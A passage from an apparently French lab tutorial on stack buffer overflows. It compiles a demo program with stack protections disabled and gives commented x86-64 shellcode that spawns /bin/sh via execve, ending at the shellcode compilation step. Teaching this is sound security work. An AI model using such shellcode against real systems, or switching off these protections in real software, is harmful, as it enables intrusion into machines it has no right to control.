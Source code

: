 ### Compilation sans protections
```bash
gcc -g -fno-stack-protector -o auth_overflow auth_overflow.c -z execstack -no-pie
```

**Paramètres de compilation :**
- `-g` : Inclut les informations de débogage
- `-fno-stack-protector` : Désactive la protection stack canary
- `-z execstack` : Rend la pile exécutable
- `-no-pie` : Désactive la protection PIE (Position Independent Executable)

### Vérification de la pile exécutable
```bash
readelf -l auth_overflow
```
Rechercher la ligne `GNU_STACK` avec les permissions `RWE` (Read, Write, Execute).

## Création du shellcode

### Code assembleur (shellcode.asm)

```asm
bits 64

section .text
global _start

_start:
    ; Mettre le chemin du shell dans le registre RDI
    xor rax, rax                        ; Met rax à 0
    push rax                            ; Empiler NULL (argv terminator)
    mov rdi, 0x68732f2f6e69622f         ; Mettre "/bin/sh" dans rdi
    push rdi                            ; Empiler "/bin/sh"
    mov rdi, rsp                        ; Mettre l'adresse de "/bin/sh" dans rdi
    xor rsi, rsi                        ; Mettre rsi à 0 (aucun argument)
    xor rdx, rdx                        ; Mettre rdx à 0 (aucun argument)
    mov al, 0x3b                        ; syscall number pour execve (59 en décimal)
    syscall
```

### Correspondance ASCII

La chaîne `/bin/sh` en hexadécimal :
- `0x2f` : /
- `0x62` : b
- `0x69` : i
- `0x6e` : n
- `0x2f` : /
- `0x73` : s
- `0x68` : h

### Compilation du shellcode
